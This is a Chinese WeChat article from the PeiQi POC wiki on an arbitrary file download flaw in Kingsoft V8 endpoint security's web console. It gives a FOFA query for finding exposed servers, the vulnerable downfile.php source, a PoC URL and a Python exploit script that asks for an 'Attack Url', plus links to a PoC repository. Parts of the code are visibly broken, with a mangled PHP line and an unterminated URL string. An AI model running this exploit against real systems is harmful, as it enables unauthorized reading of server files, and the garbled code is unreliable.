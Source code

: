> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/r-0O92tK1UPRkH3gC1oxIw)

![](https://mmbiz.qpic.cn/mmbiz_gif/ibicicIH182el5PaBkbJ8nfmXVfbQx819qWWENXGA38BxibTAnuZz5ujFRic5ckEltsvWaKVRqOdVO88GrKT6I0NTTQ/640?wx_fmt=gif)

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7f0qibYGLgIyO0zpTSeV1I6m1WibjS1ggK9xf8lYM44SK40O6uRLTOAtiaM0xYOqZicJ2oDdiaWFianIjQ/640?wx_fmt=png)

**一****：漏洞描述🐑**

**金山 V8 终端安全系统 存在任意文件读取漏洞，攻击者可以通过漏洞下载服务器任意文件**

**二:  漏洞影响🐇**

**金山 V8 终端安全系统**

**三:  漏洞复现🐋**

```
FOFA  title="在线安装-V8+终端安全系统Web控制台"
```

**存在漏洞的文件** ****/********Console/htmltopdf/downfile.php****

```
<?php  
      $filename= $_GET["filename"];

      $file, $filename);

         header("Cache-Control: public"); 
      header("Content-Description: File Transfer"); 
      header('Content-disposition: attachment; filename='.$filename); //文件名   
      header("Content-Type: application/zip"); //zip格式的   
      header("Content-Transfer-Encoding: binary"); //告诉浏览器，这是二进制文件    
      header('Content-Length: '. filesize($filename)); //告诉浏览器，文件大小   
      @readfile($filename);
      ?>
```

**文件中没有任何的过滤 通过 filename 参数即可下载任意文件**

**POC 为**

```
http://xxx.xxx.xxx.xxx/htmltopdf/downfile.php?filename=downfile.php
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4iadpWYyclcSlAYkAQBBWS0iaaSojzecapq4jPPSgYEFoYrbHBqLrxk2XZ0yWUTpMlVX2O1eBZ7CGw/640?wx_fmt=png)

 ****四:  漏洞 POC🦉****

```
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mTitle  : 金山 V8 终端安全系统 任意文件读取漏洞                          \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/htmltopdf/downfile.php?file
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if "$filename" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {} 存在漏洞 , 响应为:\n{} \033[0m".format(target_url, response.text))
        else:
            print("\033[31m[x] 不存在漏洞 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4iadpWYyclcSlAYkAQBBWS0CTXNibu8K6PibVmpvibEibpXnceErlLO2Fhgpkz4eia7CeHdw5SvINWl9wg/640?wx_fmt=png)

 ******五:  Goby & POC🦉******

```
https://github.com/PeiQi0/PeiQi-WIKI-POC
Goby & POC 目录中
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4iadpWYyclcSlAYkAQBBWS0vuVDOTzKKzyWXyjzL1pApYpEDksxwnDUTic4wHlPrRHwPc2iajFEfXPg/640?wx_fmt=png)

 ****六:  关于文库🦉****

**在线文库：**

**http://wiki.peiqi.tech**

**Github：**

**https://github.com/PeiQi0/PeiQi-WIKI-POC**

最后
--

> 下面就是文库的公众号啦，更新的文章都会在第一时间推送在交流群和公众号
> 
> 想要加入交流群的师傅公众号点击交流群加运维小哥哥拉你啦~
> 
> 别忘了 Github 下载完给个小星星⭐

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4iadpWYyclcSlAYkAQBBWS0eRzgdiaCxohoCR6ZNibOxd2TEYmA198SIaZ1LO8Lnic0BQyUPrFpACPew/640?wx_fmt=png)

公众号

**同时知识星球也开放运营啦，希望师傅们支持支持啦🐟**

**知识星球里会持续发布一些漏洞公开信息和技术文章~**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4H0eAdwSujqLIvjNhHfb9xshl2iawGqrGmiazvWUz9ZPTg6bibMicn5ia1iaWicA7VkluZBrhOneX6qyozA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4H0eAdwSujqLIvjNhHfb9xlo5v2DeibxMNQ2pLbsia07zmQANFw460ThwAqicEGezIB76eszlm8ZPKA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4H0eAdwSujqLIvjNhHfb9xiajJQgckrXRQ43NnW2rhl69mOxSVAU0GAickE6ibAWial1GicGN7SURFruA/640?wx_fmt=png)

**由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。**

**PeiQi 文库 拥有对此文章的修改和解释权如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经作者允许，不得任意修改或者增减此文章内容，不得以任何方式将其用于商业目的。**